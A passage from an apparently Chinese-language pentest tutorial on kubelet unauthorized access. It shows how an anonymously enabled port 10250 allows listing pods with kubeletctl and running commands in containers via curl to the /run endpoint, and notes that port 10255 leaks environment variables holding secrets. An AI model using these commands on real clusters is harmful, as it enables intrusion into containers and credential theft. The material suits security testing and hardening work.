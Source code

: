 ### 2\. kubelet未授权访问

每一个 **Worker节点** 都有一个kubelet服务，kubelet监听了`10250`（kubelet
API），`10248`，`10255`（readonly API）等端口。

正常情况下访问是没有权限的：

https://192.168.41.23:10250/pods

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220314221358.png)

`authentication.anonymous.enabled`配置不当设置为 true 时，允许匿名访问 10250 端口：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220314221359.png)

访问存在如下回显，就是存在未授权访问：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220314221400.png)

 **利用** ：

https://github.com/cyberark/kubeletctl/releases

下载kubeletctl工具，执行命令：

    
    
    ./kubeletctl pods -s 192.168.41.23 --port 10250

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220314221401.png)

可以看到pod，namespace，containers。

执行pod里容器的命令：

    
    
    curl -k https://nodeip:10250/run/$namespace/$POD/$CONTAINERS -d "cmd=ls" --insecure  
      
    curl -k https://192.168.41.23:10250/run/default/nginx-f89759699-tct4p/nginx -d "cmd=ls" --insecure

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220314221402.png)

如果是10255端口的未授权而非10250，它是 **只读端口**
，无法直接利用在容器中执行命令，但是可以获取环境变量ENV、主进程CMDLINE等信息，里面可能包含密码和秘钥等敏感信息。

### 参考链接

[https://mp.weixin.qq.com/s/T2QGLlKwjaUByDtGFL94PQ](https://mp.weixin.qq.com/s?__biz=MzIxNTIzMzM1Ng==&mid=2651104364&idx=1&sn=a22dac0da090751552d46a8b622bfbbc&scene=21#wechat_redirect)

https://blog.csdn.net/w1590191166/article/details/122028001?spm=1001.2014.3001.5501

  

预览时标签不可点

收录于话题 #

 个
